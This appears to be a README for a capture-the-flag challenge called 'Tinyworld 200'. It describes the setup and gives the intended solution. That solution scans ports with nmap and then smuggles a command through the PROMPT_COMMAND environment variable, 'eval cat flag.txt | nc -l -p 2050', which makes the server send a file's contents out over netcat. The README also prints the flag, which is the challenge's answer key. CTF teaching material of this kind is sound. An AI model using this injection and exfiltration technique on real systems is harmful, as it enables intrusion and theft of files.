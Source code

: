 # Tinyworld 200

In this challenge, competitors are provided with an anonymous SSH to a server under the username `challenge@addr -p 2222` where when they log in they are presented with a prompt that will let them run any 5 character command with no special characters and set some environment variables, but not let them receive any output back from any of their commands.

As a note, make sure to setup the openstack firewall to ONLY allow 2000 - 2100 and 2222 in from competitors, this is in order to make the nmap scan that the users have to perform more obvious as to which ports are available for them to use.

## Solution

First off the competitors will need to find an open port that they can open netcat on

    nmap -Pn -d -d 192.168.108.167

Run a server on your machine (replace localhost with the IP of the host where tinyworld.py is located)

    while true; do nc localhost 2050; done

ssh into the challenge box and run the following commands

    Give me an env key: PROMPT_COMMAND
    Give me an env value: eval cat flag.txt | nc -l -p 2050
    Give me a 5 char cmd: asdaa

The challenge box will then bind to port 2050 and brodcast the key for a short period of time and then exit. Note that competitors will need to perform a port scan in order to figure out which ports are actually available to bind to.

## Building/Running the Challenge

    docker-compose up

## Flag

fba1b558b6b2df0c04670d8348e51a99b426f743
